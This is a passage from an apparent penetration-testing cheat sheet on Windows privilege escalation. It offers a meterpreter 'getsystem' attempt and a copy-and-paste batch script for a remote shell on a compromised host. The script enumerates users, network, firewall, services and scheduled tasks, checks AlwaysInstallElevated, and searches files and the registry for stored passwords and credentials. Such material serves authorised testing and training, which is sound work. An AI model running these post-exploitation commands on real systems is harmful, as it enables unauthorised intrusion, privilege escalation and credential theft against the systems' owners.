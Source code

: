     `net user "%username%"`

*   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

*   No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).

    Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

         @echo --------- BASIC WINDOWS RECON ---------  > report.txt
         timeout 1
         net config Workstation  >> report.txt
         timeout 1
         systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
         timeout 1
         hostname >> report.txt
         timeout 1
         net users >> report.txt
         timeout 1
         ipconfig /all >> report.txt
         timeout 1
         route print >> report.txt
         timeout 1
         arp -A >> report.txt
         timeout 1
         netstat -ano >> report.txt
         timeout 1
         netsh firewall show state >> report.txt	
         timeout 1
         netsh firewall show config >> report.txt
         timeout 1
         schtasks /query /fo LIST /v >> report.txt
         timeout 1
         tasklist /SVC >> report.txt
         timeout 1
         net start >> report.txt
         timeout 1
         DRIVERQUERY >> report.txt
         timeout 1
         reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
         timeout 1
         findstr /si password *.xml *.ini *.txt >> report.txt
         timeout 1
         reg query HKLM /f password /t REG_SZ /s >> report.txt
         timeout 1
         reg query HKCU /f password /t REG_SZ /s >> report.txt 
         timeout 1
         dir "C:\"
         timeout 1
         dir "C:\Program Files\" >> report.txt
         timeout 1
         dir "C:\Program Files (x86)\"
         timeout 1
         dir "C:\Users\"
         timeout 1
         dir "C:\Users\Public\"
         timeout 1
         echo REPORT COMPLETE!
